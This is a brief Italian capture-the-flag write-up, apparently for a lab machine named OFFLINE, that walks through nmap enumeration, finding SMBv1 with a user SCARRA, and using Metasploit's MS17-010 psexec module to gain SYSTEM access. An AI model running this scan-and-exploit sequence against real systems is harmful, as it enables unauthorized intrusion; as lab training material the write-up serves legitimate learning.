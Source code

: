 # OFFLINE



## Enumeration
avviamo una scansione sulla macchina
```bash
sudo nmap -sC -sV OFFLINE.thm
```

successivamente avviamo uno scan con i vari script di nmap per quanto riguarda smb
```bash
sudo nmap -sV -p 445 --script *smb* OFFLINE.thm
```

lo script ci restituisce un nome utente SCARRA e per quanto riguarda il server ci dice che l'smb gira con la versione SMBv1
molto utile perchè ci specifica una versione con vulnerabilità critiche andiamo ad anilizzare meglio la vulnerabilità

## MS17-010

consente di inviare sul protocollo richieste smb che permettono successivamente all'utente di assumere privilegi di amministrazione

/NT-autority system e successivamente inviare codice come admin di sistema

usiamo questa vulnerabilità per entrare sul sistema 

avviamo metasploit
```bash
msfconsole
```
entriamo sull'exploit
```bash
use exploit/windows/smb/ms17_010_psexec
```
impostiamo tutte le infomazioni richieste dall'exploit e lanciamolo


BINGO! siamo dentro con l'utente NT-autority


